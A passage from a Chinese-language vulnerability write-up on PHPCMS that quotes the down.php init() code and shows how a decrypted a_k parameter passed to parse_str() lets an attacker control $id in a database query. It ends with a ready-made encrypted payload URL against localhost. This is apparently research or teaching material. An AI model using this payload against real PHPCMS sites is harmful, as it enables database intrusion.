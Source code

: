 


# part3

phpcms/modules/content/down.php

關鍵在於:
```
$_GET['a_k']

parse_str($a_k);

$rs = $this->db->get_one(array('id'=>$id));	

```

```
public function init() {
		$a_k = trim($_GET['a_k']);
		if(!isset($a_k)) showmessage(L('illegal_parameters'));
		$a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
		if(empty($a_k)) showmessage(L('illegal_parameters'));
		unset($i,$m,$f);
		parse_str($a_k);
		if(isset($i)) $i = $id = intval($i);
		if(!isset($m)) showmessage(L('illegal_parameters'));
		if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
		if(empty($f)) showmessage(L('url_invalid'));
		$allow_visitor = 1;
		$MODEL = getcache('model','commons');
		$tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
		$this->db->table_name = $tablename.'_data';
		$rs = $this->db->get_one(array('id'=>$id));	
        
        .......
        
}
```


payload part3:
content 模塊下的 down類
a_k = 剛剛被加密得數據

```
http://localhost/index.php?m=content&c=down&a_k=208cD__IKObrjY92vyfvXEOAgS-75FtWtQePbrm7EIE7XITOLxKVLSfKjsZM_XXsvtRePcaH3nlOzVn8_GoPXENTuIEx9OgPUIpsfIKGpo6i3YjBej0pcf4vML1QzMGl-RqsVXeI0BHpmnYgt0hWgCVfsrgnu8Zq2sXpm5S526ftrF4EfSvm9rdKE7ryzqTsvOZZU6yPf-aE7HsLc9nvX5NIag8Ev8Y9RCVxsJ_5tCWyeThTT5RZ-8xxZbm6UMVs8w4gr1vmQ5fXFWDd2DOf1QbirEU_TSra8v2R4CeEirQ

```


a_k 剛好被解密
